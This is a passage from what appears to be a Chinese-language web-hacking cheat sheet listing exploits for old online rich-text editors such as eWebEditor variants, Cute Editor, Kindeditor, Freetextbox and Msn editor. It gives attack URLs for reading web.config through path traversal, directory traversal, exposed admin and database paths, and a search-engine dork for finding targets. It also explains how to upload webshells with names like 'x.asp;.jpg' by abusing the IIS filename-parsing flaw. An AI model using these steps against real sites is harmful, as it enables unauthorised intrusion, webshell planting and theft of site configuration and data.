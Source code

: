 	成功以后查看源代码找到uploadsave查看上传保存地址，默认传到uploadfile这个文件夹里。
  #### southidceditor(一般使用v2.8.0版eWeb核心)
	http://www.xxxx.com/admin/southidceditor/datas/southidceditor.mdb
	http://www.xxxx.com/admin/southidceditor/admin/admin_login.asp
	http://www.xxxx.com/admin/southidceditor/popup.asp
	bigcneditor(eWeb 2.7.5 VIP核心)
	其实所谓的Bigcneditor就是eWebEditor 2.7.5的VIP用户版.之所以无法访问admin_login.asp，提示“权限不够”4字真言，估计就是因为其授权“Licensed”问题,或许只允许被授权的机器访问后台才对。或许上面	针对eWebEditor v2.8以下低版本的小动作可以用到这上面来.貌似没多少动作Cute Editor
  #### Cute Editor在线编辑器本地包含漏洞
	影响版本:
	CuteEditor For Net 6.4
	脆弱描述：
	可以随意查看网站文件内容，危害较大。
	攻击利用:
	http://www.xxxx.com/CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config
	Cute Editor Asp.Net版利用iis解析漏洞获得权限
	影响版本：
	CuteEditor for ASP.NET中文版脆弱描述：
	脆弱描述：
	CuteEditor对上传文件名未重命名，导致其可利用IIS文件名解析Bug获得webshell权限。
	攻击利用：
	可通过在搜索引擎中键入关键字 inurl:Post.aspx?SmallClassID= 来找到测试目标。
	在编辑器中点击“多媒体插入”，上传一个名为“xxx.asp;.avi”的网马，以此获得权限。
  #### Webhtmleditor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本：<= Webhtmleditor最终版1.7 (已停止更新)
	脆弱描述/攻击利用：
	对上传的图片或其他文件无重命名操作，导致允许恶意用户上传diy.asp;.jpg来绕过对后缀名审查的限制，对于此类因编辑器作者意识犯下的错误，就算遭遇缩略图，文件头检测，也可使用图片木马 插入一句话来突破。
  #### Kindeditor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本: <= kindeditor 3.2.1(09年8月份发布的最新版)
	脆弱描述/攻击利用：
	拿官方做个演示：进入http://www.xxxx.com/ke/examples/index.html 随意点击一个demo后点图片上传，某君上传了如下文件：http://www.xxxx.com/ke/attached/test.asp;.jpg
	Note:参见附录C原理解析。
  #### Freetextbox
	Freetextbox遍历目录漏洞
	影响版本：未知
	脆弱描述：
	因为ftb.imagegallery.aspx代码中 只过滤了/但是没有过滤\符号所以导致出现了遍历目录的问题。
	攻击利用:
	在编辑器页面点图片会弹出一个框（抓包得到此地址）构造如下，可遍历目录。
	http://www.xxxx.com/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\..
	Freetextbox Asp.Net版利用IIS解析漏洞获得权限
	影响版本：所有版本
	脆弱描述：
	没做登陆验证可以直接访问上传木马
	Freetextbox 3-3-1 可以直接上传任意格式的文件
	Freetextbox 1.6.3 及其他版本可以上传 格式为x.asp;.jpg
	攻击利用：
	利用IIS解析漏洞拿SHELL。上传后SHELL的路径为http://www.xxxx.com/images/x.asp;.jpg
  #### Msn editor
	利用WIN 2003 IIS文件名称解析漏洞获得SHELL
	影响版本：未知
	脆弱描述：
	点击图片上传后会出现上传页面，地址为
	http://www.xxxx.com/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=
	用普通的图片上传后，地址为
	http://www.xxxx.com/news/uppic/41513102009204012_1.gif
	记住这时候的路径，再点击图片的上传，这时候地址就变成了